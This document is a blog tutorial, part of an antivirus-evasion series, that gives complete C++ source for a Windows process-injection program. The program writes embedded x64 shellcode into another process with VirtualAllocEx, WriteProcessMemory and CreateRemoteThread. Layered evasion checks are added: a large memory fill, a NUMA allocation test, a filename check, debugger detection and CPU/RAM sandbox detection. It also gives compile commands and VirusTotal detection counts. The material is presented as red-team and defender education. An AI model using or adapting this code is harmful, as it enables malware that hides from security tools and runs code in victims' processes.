


## 37. AV engines evasion techniques - part 3. Simple C++ example.

{width="80%"}    

This is a third part of the tutorial and it describes an example how to bypass AV engines in simple C++ malware.   

[first part](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[second part](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    

In this section we will try to implement some techniques used by malicious software to execute code, hide from defenses.    

Let's take a look at example C++ source code of our malware which implement [classic code injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html):    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

This is classic variant, we define payload, allocate memory, copy into the new buffer, and then execute it.    

The main limit with AV scanner is the amount of time they can spend on each file. During a regular system scan, AV will have to analyze thousands of files. It just cannot spend too much time or power on a peculiar one. One of the "classic" AV evasion trick besides payload encryption: we just allocate and fill `100MB` of memory:    

```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... run our malicious logic
}
```

So, let's go to update our simple malware:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Let's go to compile:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And run it in our victim's machine (`Windows 10 x64`):   

{width="80%"}   

As you can see everything is worked perfectly :)    

And if we just upload this malware to VirusTotal:   

{width="80%"}    

[https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**So, 6 of 67 AV engines detect our file as malicious.**

For better result, we can add payload [encryption](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.   

And what's next? Malwares often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.   

For example, we can detect virtualized environment. Sandboxes and analyst's virtual machines usually can’t 100% accurately emulate actual execution environment. Nowadays typical user machine has a processor with at least 2 cores and has a minimum 2GB RAM. So our malware can verify if the environment is a subject to these constraints:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```

Also we'll invoke the `VirtualAllocExNuma()` API call. This is an alternative version of `VirtualAllocEx()` that is meant to be used by systems with more than one physical CPU:    

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

//...
```

What we're doing here is trying to allocate memory with `VirtualAllocExNuma()`, and if it fails we just exit immediately.
Otherwise, execution will continue.   

Since the code is emulated it is not started in a process which has the name of the binary file. That's why we check that first argument contains name of the file:   
```cpp
// what is my name???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("What's my name? WTF?? :(\n");
  return -2;
}
```

It's possible to simply "ask" the operating system if any debugger is attached. `IsDebuggerPresent` function basically checks `BeingDebugged` flag in the `PEB`:   
```cpp
// "ask" the OS if any debugger is present
if (IsDebuggerPresent()) {
  printf("attached debugger detected :(\n");
  return -2;
}
```

Dynamic malware analysis - or sandboxing - has become the centerpiece of any major security solution. At the same time, almost all variants of current threats include some kind of sandbox detection logic.   

So we can try to combine all this tricks (`hac2.cpp`):    
```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), 
  "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Let's go to compile:

{width="80%"}    

and run in our victim's machine (`Windows 10 x64`):   

{width="80%"}   

As you can see, our malicious logic did not start as we are in a virtual machine with 1 core CPU.    

Let's go to upload this variant to VirusTotal:    

{width="80%"}   

[https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection](https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection)

**So, 8 of 67 AV engines detect our file as malicious.**

As usually, for better result, we can add payload [encryption](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.

To conclude these examples show it is pretty simple to bypass AV when you exploit their weaknesses. It only requires some knowledge on windows system and how AV works.    

Also we can try to detect devices and vendor names of our machine, search VM-specific artifacts, check file, process or windows names, check screen resolution, etc. I will show these techniques and real examples in the future in separate posts.    

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[The Antivirus Hacker's Handbook](https://www.amazon.com/Antivirus-Hackers-Handbook-Joxean-Koret/dp/1119028752)    
[Wikileaks - Bypass AV Dynamic Analysis](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)    
[DeepSec 2013 Talk: The Joys of Detecting Malicious Software](https://blog.deepsec.net/deepsec-2013-talk-easy-ways-to-bypass-anti-virus-systems/)    
[IsDebuggerPresent](https://docs.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)    
[VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma)    
[NUMA Support](https://docs.microsoft.com/en-us/windows/win32/procthread/numa-support)    
[Source code on Github](https://github.com/cocomelonc/2021-12-21-simple-malware-av-evasion-3)    
